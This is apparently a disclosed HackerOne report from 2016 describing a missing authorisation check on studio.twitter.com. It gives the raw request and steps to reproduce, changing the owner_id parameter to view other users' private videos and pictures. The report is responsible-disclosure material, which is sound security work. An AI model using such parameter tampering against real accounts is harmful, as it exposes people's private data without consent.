 # [Studio.twitter.com] See someone else pics 

## Report Details
- **Report ID**: 164649
- **URL**: https://hackerone.com/reports/164649
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-31T07:09:43.468Z
- **Disclosed**: 2017-06-22T04:52:24.643Z

## Reporter
- **Username**: anandpingsafe
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hi Team,

Below URL is missing authorisation where user A who is not having access to user B's data is able to view the video/pics by user.

Vulnerable request:

```
GET /1/library/list.json?account_id=4503599659510351&owner_id=12&limit=20&offset=0 HTTP/1.1
Host: studio.twitter.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:37.0) Gecko/20100101 Firefox/37.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://studio.twitter.com/library
Cookie: 
Connection: keep-alive



```
Steps to reproduce:

1. Login to your studio.twitter.com account.
2. Go to studio.twitter.com/1/library/list.json?account_id=4503599659510351&owner_id=12&limit=20&offset=0 

Change the owner_id to see more of his private videos.

Thanks,
Anand

## Attachments
No attachments
